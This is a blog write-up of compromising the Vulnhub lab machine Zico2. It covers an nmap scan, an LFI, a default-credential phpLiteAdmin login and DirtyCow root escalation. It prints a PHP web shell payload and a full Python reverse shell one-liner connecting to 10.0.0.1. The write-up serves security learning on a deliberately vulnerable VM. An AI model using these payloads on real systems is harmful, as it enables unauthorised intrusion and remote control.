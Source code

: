 ```yaml
---
layout: default
title : muzec - Zico2 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117451151-23ce6b00-af10-11eb-8417-a95f64436697.png)

So i was also hitting all the OSCP like Box on Vulnhubs Damn guys guess what?? am really getting my A** kick like a lot lol so let get started today the box is Zico2 which can be easily download here `https://www.vulnhub.com/entry/zico2-1,210/` .

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu May  6 15:40:41 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.170
Nmap scan report for 172.16.139.170
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35483/udp6  status
|   100024  1          35727/udp   status
|   100024  1          49061/tcp   status
|_  100024  1          52842/tcp6  status
49061/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 15:40:59 2021 -- 1 IP address (1 host up) scanned in 18.38 seconds
```

4 open ports we already know we are hitting port 80 first let see what we have on the web page.

![image](https://user-images.githubusercontent.com/69868171/117451151-23ce6b00-af10-11eb-8417-a95f64436697.png)

Looking around we found a page with a LFI vulnerability.

![image](https://user-images.githubusercontent.com/69868171/117452058-5167e400-af11-11eb-8a8e-3ed65ebdcf75.png)

Not going to lie i spend hours trying to get it from LFI to RCE but no luck so i decided to burst some directory.

![image](https://user-images.githubusercontent.com/69868171/117455282-0a7bed80-af15-11eb-96be-ff3a6fdfb7c8.png)

And `http://172.16.139.170/dbadmin/` look interesting let check it out.

![image](https://user-images.githubusercontent.com/69868171/117455487-3a2af580-af15-11eb-9f6c-1f0edf3af6ab.png)

So i click on test_db.php.

![image](https://user-images.githubusercontent.com/69868171/117455586-575fc400-af15-11eb-84ab-2186e616a9c1.png)

And boom a phpLiteAdmin admin page a quick google search give us the default password to log in.

![image](https://user-images.githubusercontent.com/69868171/117455772-7fe7be00-af15-11eb-94cf-8ff9298e99d2.png)

Let try using it to log in.

![image](https://user-images.githubusercontent.com/69868171/117456109-da811a00-af15-11eb-8bb0-aabb49d45ea9.png)

Boom we have access to the phpLiteAdmin admin page and also found some sweet credentials.

![image](https://user-images.githubusercontent.com/69868171/117456239-f97fac00-af15-11eb-804f-0e1a3ee6ab34.png)

So i cracl it thinking it the way to get acess to SSH but nop just a rabbit hole.

![image](https://user-images.githubusercontent.com/69868171/117456407-246a0000-af16-11eb-9fb3-97210a0fa3b0.png)

So back to the phpLiteAdmin admin page since we know the version i try checking for any available exploit using searchsploit.

![image](https://user-images.githubusercontent.com/69868171/117456604-62ffba80-af16-11eb-922e-8bf03c85053f.png)

Hmm the Remote PHP Code Injection look interesting since it match our version.

![image](https://user-images.githubusercontent.com/69868171/117456802-9b9f9400-af16-11eb-9c44-1a4ccdc3ebc5.png)

Ok let follow it.

![image](https://user-images.githubusercontent.com/69868171/117456936-beca4380-af16-11eb-900d-543f72c14632.png)

Now let click on the new created database.

![image](https://user-images.githubusercontent.com/69868171/117457051-dc97a880-af16-11eb-82a8-9576631ea4e0.png)

![image](https://user-images.githubusercontent.com/69868171/117457161-f6d18680-af16-11eb-9036-9e110ee4d411.png)

Now let create a table for it.

![image](https://user-images.githubusercontent.com/69868171/117457800-9a229b80-af17-11eb-8b07-789cb1a474c9.png)

Default Value `<?php echo system($_GET["cmd"]); ?>` and click on create.

![image](https://user-images.githubusercontent.com/69868171/117457981-c9390d00-af17-11eb-8727-42dd8599617e.png)

Now going back to the LFI page to access it.

![image](https://user-images.githubusercontent.com/69868171/117458102-ea016280-af17-11eb-9dbd-3a6e90ec7a65.png)

AHhhh nice adding our parameter to the back boom we have command injection.

![image](https://user-images.githubusercontent.com/69868171/117458218-0ac9b800-af18-11eb-88b9-b5e61cdf09e7.png)

Now let get a reverse shell back to our terminal. [Reverse Shell Cheat Sheet](https://muzec0318.github.io/posts/ReverseShell.html) 

we be using the python reverse shell script `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Note:- do change the IP and port also start an Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/117458539-66944100-af18-11eb-9c66-3202fd946b5f.png)

And we have shell.

![image](https://user-images.githubusercontent.com/69868171/117458735-9c392a00-af18-11eb-8d24-a295754a0e0c.png)

let Spawn a TTY shell. [Spawning A TTY Shell][https://muzec0318.github.io/posts/Ttyshells.html]

![image](https://user-images.githubusercontent.com/69868171/117458926-cdb1f580-af18-11eb-84df-9287abda3f4e.png)

### Privilege Escalation

First thing to check was the version.

![image](https://user-images.githubusercontent.com/69868171/117458997-e4584c80-af18-11eb-8456-aafbad304677.png)

Yea it pretty Old so i run linux-exploit-suggester to find some exploit.

![image](https://user-images.githubusercontent.com/69868171/117459988-01414f80-af1a-11eb-8b6b-2dc652bed2d8.png)

Cool dirtycow 2 so i download the exploit to my machine and transfer it to the target box.

![image](https://user-images.githubusercontent.com/69868171/117460269-5715f780-af1a-11eb-8086-9b54eb9bcca3.png)

Now let complie and run the exploit.

`gcc -pthread 40839.c -o dirty -lcrypt`

![image](https://user-images.githubusercontent.com/69868171/117460506-95131b80-af1a-11eb-869c-99967f674b17.png)

![image](https://user-images.githubusercontent.com/69868171/117460545-9fcdb080-af1a-11eb-87fd-db7451785256.png)

Now let run it.

![image](https://user-images.githubusercontent.com/69868171/117461691-d8ba5500-af1b-11eb-89a3-62f43aeeb734.png)

![image](https://user-images.githubusercontent.com/69868171/117461766-eec81580-af1b-11eb-85a2-60d2c20efbb6.png)

And we are root...

![image](https://user-images.githubusercontent.com/69868171/117461922-1a4b0000-af1c-11eb-9b8c-02a1291c006f.png)

*GOT STUCK A LOT BUT GUESS WHAT WE LEARN EVERYDAY*

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
